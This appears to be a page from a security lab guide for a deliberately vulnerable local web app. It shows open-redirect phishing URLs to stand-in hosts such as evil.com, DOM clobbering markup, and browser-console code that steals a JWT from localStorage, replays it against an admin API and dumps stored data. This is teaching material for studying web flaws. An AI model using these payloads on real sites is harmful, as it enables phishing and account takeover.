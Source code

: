 #### Attack 2: Open Redirect

```javascript
// If app has redirect functionality
// Visit: http://localhost:3000/wcorp/redirect?url=https://evil.com

// Phishing attack:
// Send email: "Your W Corp account needs verification"
// Link: http://localhost:3000/wcorp/redirect?url=https://fake-wcorp.com/login
// Users trust the domain but get redirected to phishing site
```

#### Attack 3: DOM Clobbering

```html
<!-- If page vulnerable to HTML injection -->
<img name="userAuth" src="x">
<form name="isAdmin"></form>

<script>
// Now these DOM elements override JavaScript variables
console.log(window.userAuth);  // Returns the img element
console.log(window.isAdmin);   // Returns the form element

// Can break security checks
if (window.isAdmin) {  // Always true now!
    // Show admin panel
}
</script>
```

---

## Session Storage Attacks

### 🔓 Exploitation via Browser Console

#### Attack 1: Token Theft

```javascript
// Open browser console on the site (F12)

// 1. Steal JWT token
const token = localStorage.getItem('token');
console.log('Stolen token:', token);

// 2. Decode JWT to see user info
const payload = JSON.parse(atob(token.split('.')[1]));
console.log('User info:', payload);

// 3. Use token to make requests as the user
fetch('/wcorp/api/admin/users', {
    headers: {
        'Authorization': 'Bearer ' + token
    }
}).then(r => r.json()).then(console.log);

// 4. Export all localStorage
const allData = {};
for (let i = 0; i < localStorage.length; i++) {
    const key = localStorage.key(i);
    allData[key] = localStorage.getItem(key);
}
console.log('All stored data:', allData);
```

